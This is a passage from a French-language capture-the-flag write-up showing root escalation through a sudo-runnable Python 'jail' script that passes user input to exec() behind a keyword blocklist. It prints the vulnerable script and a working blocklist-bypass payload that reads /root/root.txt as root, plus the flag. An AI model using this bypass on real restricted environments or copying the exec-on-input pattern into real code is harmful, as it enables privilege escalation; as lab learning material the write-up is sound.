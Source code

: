 On voit que l'on peut exécuter jail.py avec les droits root.   

```bash
/home/kamishiro/jail.py
kamishiro@vagrant:~$ ls -al /home/kamishiro/jail.py 
-rw-r--r-- 1 root root 588 Jan 23  2021 /home/kamishiro/jail.py
kamishiro@vagrant:~$ cat /home/kamishiro/jail.py 
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

On a pas les droits pour écrire dans le fichier jail.py.   
On voit le script exécute des commandes, il y a un filtrage sur certain mots.  

```bash
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
9d790bb87898ca66f724ab05a9e6000b
No Kaneki you are so dead
```

On contourne la protection, en faissant un objet on l'on modifie, pour plus d'information : [escape-jail](https://anee.me/escaping-python-jails-849c65cf306e)       
On obtient le dernier flag qui est : 9d790bb87898ca66f724ab05a9e6000b  